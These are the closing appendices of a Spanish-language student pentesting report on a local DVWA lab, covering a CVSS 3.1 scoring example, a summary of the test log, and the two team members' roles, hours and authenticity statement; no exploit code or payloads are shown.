### Anexo D: Metodología de Cálculo CVSS

**CVSS v3.1 Calculator utilizado:** https://www.first.org/cvss/calculator/3.1

**Ejemplo de cálculo para V-03 (File Upload → RCE):**
```
Attack Vector (AV): Network (N) - Exploitable remotamente via red
Attack Complexity (AC): Low (L) - No requiere condiciones especiales
Privileges Required (PR): None (N) - Cualquier usuario puede explotar
User Interaction (UI): None (N) - No requiere acción del usuario
Scope (S): Unchanged (U) - Afecta al mismo componente vulnerable
Confidentiality Impact (C): High (H) - Acceso total a datos
Integrity Impact (I): High (H) - Modificación total de datos
Availability Impact (A): High (H) - Potencial DoS total

Vector String: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Base Score: 9.8 (Critical)
```

**Definiciones de Impacto:**
- **None (N):** Sin impacto
- **Low (L):** Impacto menor, pérdida limitada
- **High (H):** Impacto total, pérdida severa

**Rangos de Severidad:**
- 0.0: None
- 0.1-3.9: Low
- 4.0-6.9: Medium
- 7.0-8.9: High
- 9.0-10.0: Critical

### Anexo E: Bitácora Completa de Pruebas

**Ubicación:** `bitacora/lab.notebook.md`

La bitácora completa de 40+ páginas documenta cronológicamente:
- Todas las pruebas realizadas (exitosas y fallidas)
- Comandos ejecutados con timestamps
- Observaciones y decisiones tomadas
- Problemas encontrados y soluciones

**Resumen de actividades:**
- Sesiones de pentesting: 8
- Horas totales invertidas: 32
- Vulnerabilidades identificadas: 5
- Vulnerabilidades explotadas: 4
- Capturas de pantalla: 70+
- Payloads probados: 50+

### Anexo F: Contribuciones del Equipo

**Equipo:** AgroSenso Lite  
**Integrantes:** Andrew Montero y Deivis Jimenez

#### Matriz de Responsabilidades

| Vulnerabilidad | Identificación | Explotación | Documentación | Responsable Principal |
|----------------|----------------|-------------|---------------|----------------------|
| V-01: SQL Injection (Blind) | Andrew | Andrew | Andrew | Andrew Montero |
| V-02: Command Injection | Deivis | Deivis | Deivis | Deivis Jimenez |
| V-03: File Upload → RCE | Andrew | Andrew | Andrew | Andrew Montero |
| V-04: Stored XSS | Deivis | Deivis | Deivis | Deivis Jimenez |
| V-05: Reflected XSS | Andrew | Andrew | Andrew | Andrew Montero |

#### Distribución de Trabajo

**Andrew Montero:**
- Vulnerabilidades: V-01, V-03, V-05 (3 vulnerabilidades)
- Setup inicial del entorno
- Configuración de herramientas (Burp Suite, DevTools)
- Documentación técnica detallada
- Creación de scripts PoC
- Organización del repositorio Git
- Informe técnico (secciones técnicas)

**Deivis Jimenez:**
- Vulnerabilidades: V-02, V-04 (2 vulnerabilidades)
- Testing y validación de payloads
- Captura de evidencias fotográficas
- Bitácora de pruebas
- Post-explotación y análisis de impacto
- Informe ejecutivo (secciones de negocio)

**Trabajo Colaborativo:**
- Análisis conjunto de vulnerabilidades
- Revisión cruzada de hallazgos
- Priorización de remediaciones
- Preparación de presentación final
- Control de calidad de documentación

#### Commits del Repositorio

**Total de commits:** 45+  
**Distribución:**
- Andrew Montero: 23 commits
- Deivis Jimenez: 22 commits

**Áreas de contribución:**
- Evidencias: 50% Andrew, 50% Deivis
- Documentación: 60% Andrew (técnica), 40% Deivis (ejecutiva)
- Scripts: 100% Andrew
- Bitácora: 40% Andrew, 60% Deivis

#### Tiempo Invertido por Integrante

**Andrew Montero:**
- Pentesting técnico: 14 horas
- Documentación: 8 horas
- Scripts y automatización: 4 horas
- **Total:** 26 horas

**Deivis Jimenez:**
- Pentesting técnico: 12 horas
- Documentación: 7 horas
- Análisis de impacto: 3 horas
- **Total:** 22 horas

**Tiempo Total del Proyecto:** 48 horas

#### Declaración de Autenticidad

Ambos integrantes certifican que:
- Todo el trabajo fue realizado por el equipo
- No se utilizó código o documentación de terceros sin atribución
- Todas las pruebas se realizaron en el entorno autorizado (DVWA local)
- Se siguieron las reglas de engagement establecidas
- La documentación refleja fielmente el trabajo realizado

---

**Firma Digital (Metadatos del Repositorio):**
- Repository: [https://github.com/AndrewMontero/DVWA-CyberSecurity.git]
- Last Commit: [https://github.com/AndrewMontero/DVWA-CyberSecurity/commit/36be651be99e779971afa985aa46fbf1218bacd3]
- Contributors: Andrew Montero, Deivis Jimenez

---

**FIN DEL INFORME TÉCNICO**

---

**Documento:** Informe Técnico de Pentesting - DVWA Medium  
**Versión:** 1.5 Final  
**Fecha de Emisión:** 9/12/2025  
**Clasificación:** Confidencial  
**Equipo:** AgroSenso Lite

---